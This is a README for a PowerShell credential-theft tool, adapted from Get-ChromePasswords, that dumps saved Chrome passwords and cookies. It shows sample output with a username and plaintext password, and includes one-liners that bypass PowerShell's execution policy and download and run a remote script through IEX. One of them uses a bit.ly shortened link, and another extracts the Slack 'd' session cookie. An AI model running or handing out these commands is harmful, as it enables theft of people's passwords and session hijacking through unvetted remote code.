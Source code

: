 Note: Most of this code comes from https://github.com/et0x/Get-ChromePasswords, I've only mildly tweeked it and added in cookie dumping.

# Get-ChromePasswords
```PowerShell
.Synopsis
  Quickly retrieve Google Chrome passwords using powershell (please note this creates sqlite assemblies in your temp directory)

.PARAMETER Path
  
  The optional path to a non-standard database location for the Google Chrome Login Data database.  Generally found at '<APPDATA>\Local\Google\Chrome\Default\Login Data'

.EXAMPLE
  PS> .\Get-ChromePasswords

  Url                                                                                                    Username                  Password
  ---                                                                                                    --------                  --------
  https://accounts.google.com/signin/challenge/sl/password                                               user1                     password
  ...
```

## Quick mode...

```PowerShell
  C:\> powershell -exec bypass -c "IEX((new-object net.webclient).downloadstring('https://bit.ly/2OMBArT'));Get-ChromeCreds"
```

## Just pull "d" Cookie for use with SlackExtract...

```PowerShell
  C:\> powershell -exec bypass -c "IEX((new-object net.webclient).downloadstring('https://raw.githubusercontent.com/clr2of8/Get-ChromePasswords/master/Get-CC.ps1');Get-ChromeCreds -SE"
```

